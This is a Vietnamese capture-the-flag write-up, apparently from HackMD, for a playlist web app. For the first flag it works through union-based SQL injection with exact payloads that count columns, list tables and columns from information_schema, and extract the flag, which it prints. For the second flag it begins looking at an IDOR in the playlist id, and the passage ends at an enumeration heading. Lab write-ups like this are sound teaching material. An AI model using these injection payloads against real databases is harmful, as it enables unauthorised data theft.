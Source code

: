 ![image](https://hackmd.io/_uploads/B1gQYvE7R.png)

### Exploit:

Ở trường hợp này, mình có thể quan sát được kết quả trả về của câu truy vấn nên mình sẽ dùng kiểu tấn công Union-based. Dưới đây là các bước mà mình thực hiện.

1. **Xác định số cột trong bảng hiện tại.**
   - Payload: `1 ORDER BY 6-- -`.
   - Kết quả: ![image](https://hackmd.io/_uploads/rJj0iPE7R.png)
2. **Xác định các cột hiển thị kết quả.**
   - Payload: `99999 UNION SELECT 1,2,3,4,995,996-- -`.
   - Kết quả: Cột số 2, 3, 5, 6 hiển thị kết quả.
     ![image](https://hackmd.io/_uploads/SkwvnPE70.png)
3. **Trích tên các bảng trong DB hiện tại.**
   - Payload: `99999 UNION SELECT 991,992,(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()),994,995,996-- -`.
   - Kết quả: `playlist_songs,  playlists, users, songs, flag_1`.
     ![image](https://hackmd.io/_uploads/BJlJCD4XC.png)
4. **Trích xuất tên cột trong bảng flag_1.**

   - Payload: `99999 UNION SELECT 991,992,(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name=0x666C61675F31),994,995,996-- -`.
   - Kết quả: Bảng có 1 cột có tên là `flag`.
     ![image](https://hackmd.io/_uploads/r1Nf1d4mA.png)

   <div class="alert alert-info">
    <strong>📝Note:</strong> Tên bảng có thể truyền vào dưới dạng hex.
   <div/>

5. **Trích xuất dữ liệu trong bảng flag.**

   - Payload: `99999 UNION SELECT 991,992,(SELECT flag FROM flag_1),994,995,996-- -`.
   - Kết quả:
     ![image](https://hackmd.io/_uploads/B1XqkuEQA.png)

    <div class="alert alert-success">
        <strong>🚩FLAG 1:</strong> CHH{Sup3r_s1MpL3_SQL_1Nj3cti0n_HehEH3}
    </div>

## K08FE FLAG 02

![image](https://hackmd.io/_uploads/Byh2euVXA.png)

> Flag số 2 nằm trong một playlist Private của người dùng samuel. Hãy tìm cách đọc Flag 2.

Chức năng mình để ý tới trong flag 2 này vẫn là chức năng "View playlist" vì thông tham số `id` mình có thể xem được những playlist khác. Có thể chức năng này có chứa lỗ hổng IDOR.

### Enumeration:
